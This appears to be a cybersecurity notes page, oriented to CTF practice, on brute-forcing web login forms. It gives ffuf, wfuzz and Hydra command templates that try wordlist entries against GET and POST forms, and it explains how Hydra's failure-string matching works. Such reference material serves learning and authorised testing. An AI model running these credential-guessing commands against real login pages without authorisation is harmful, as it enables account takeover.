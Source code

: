 # Brute force forms

<div class="row row-cols-md-2"><div>

* `ffuf`/`wfuzz`/`hydra`: brute force forms

> Another alternative is Burp Suite with the [Intruder tab](/_cybersecurity/exploitation/web/burpsuite/index.md), but it's rate-limited in the Community Edition.
</div><div>

As a reminder, you can learn more about wordlists [here](/_cybersecurity/exploitation/general/index.md#-wordlists-).

> CTF are usually using `/usr/share/wordlists/rockyou.txt` for passwords, and a manually created list of usernames (if needed).
</div></div>

<hr class="sep-both">

## Brute force using ffuf

[See fuzzing/ffuf for more information](../fuzz/index.md#ffuf---fuzz-faster-u-fool)

<div class="row row-cols-md-2"><div>

Try to brute force a GET form.

```bash
$ ffuf -w wordlist -u URL/account?id=FUZZ
```
</div><div>

Try to brute force a POST form.

```bash
$ ffuf -w wordlist -X POST -d "username=admin&pass=FUZZ" URL/login.php
$ ffuf -w wordlist1:W1,wordlist2:W2 -X POST -d "username=W1&password=W2" -u URL/login.php
```
</div></div>

<hr class="sep-both">

## Brute force using wfuzz

[See fuzzing/wfuzz for more information](../fuzz/index.md#wfuzz---web-application-fuzzer)

<div class="row row-cols-md-2"><div>

Try to brute force a GET form.

```bash
$ wfuzz -w wordlist URL/account?id=FUZZ
```
</div><div>

Try to brute force a POST form.

```bash
$ wfuzz -w wordlist -d "username=admin&pass=FUZZ" URL/login.php
```
</div></div>

<hr class="sep-both">

## Brute force authentication forms using Hydra

[See hydra for more information](/_cybersecurity/exploitation/services/bruteforce.md#hydra)

<div class="row row-cols-md-2"><div>

Hydra is mostly used to brute force services, but it can also be used with authentication forms.

```bash
$ hydra -l toto -P wordlist URL http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
```

<p class="mt-3">The request that we will brute force is something like this</p>

```text
username=toto&password=xxx
```
</div><div>

This command will

* Attack the form located at `URL/login.php` <small>(the `/login.php`)</small>
* Set the field with the name "username" with "toto"
* Set the field with the name "password" with every entry in the wordlist, one by one
* Consider as failures (`-F`) any web page that returns the word "incorrect"

You should check the [brute force services](/_cybersecurity/exploitation/services/bruteforce.md) page to learn more about Hydra.
</div></div>